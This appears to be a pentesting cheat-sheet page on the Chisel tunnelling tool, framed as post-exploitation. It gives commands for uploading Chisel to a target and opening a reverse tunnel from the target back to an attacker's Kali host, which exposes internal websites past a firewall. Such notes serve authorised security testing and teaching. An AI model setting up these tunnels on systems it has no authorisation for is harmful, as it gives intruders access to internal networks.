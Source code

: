 # Chisel

<div class="row row-cols-lg-2"><div>

[Chisel](https://github.com/jpillora/chisel) <small>(10.5k ⭐)</small> is a post-exploitation tool that can be used to remotely access a website using TCP. This can be useful to access website from your browser will a firewall is blocking connections.

On Kali, you can install it using:

```shell!
$ sudo apt install chisel
```

On the remote target server, you need to get `chisel`

* Use `lscpu` to find which binary is appropriate
* Download the appropriate binary [here](https://github.com/jpillora/chisel/releases/)
* Unzip (`gunzip xxx.gz`) and upload it on the target
</div><div>

**Example: From Kali - Access A Remote Internal Website** 

On Kali, the host, listen for clients:

```shell!
$ chisel server -p cport --reverse
Listening at <chost_ip:cport>
```

On the target, assuming the website is running at `localhost:80`, and we want to access it using `localhost:8080` on Kali, we would use:

```ps
$ ./chisel client chost_ip:cport R:8080:localhost:80
```

If the website is running on another machine such as `xxx.local:8000`, we can simply replace `localhost` with an IP or a Domain Name:

```ps
$ ./chisel client chost_ip:cport R:8080:xxx.local:8000
```

📚 On your Kali machine, you will have to add an entry in your host file: `127.0.0.1 xxx.local`, and use `http://xxx.local:8080`.

⚠️ Remember that you need to use the actual host IP in shells.
</div></div>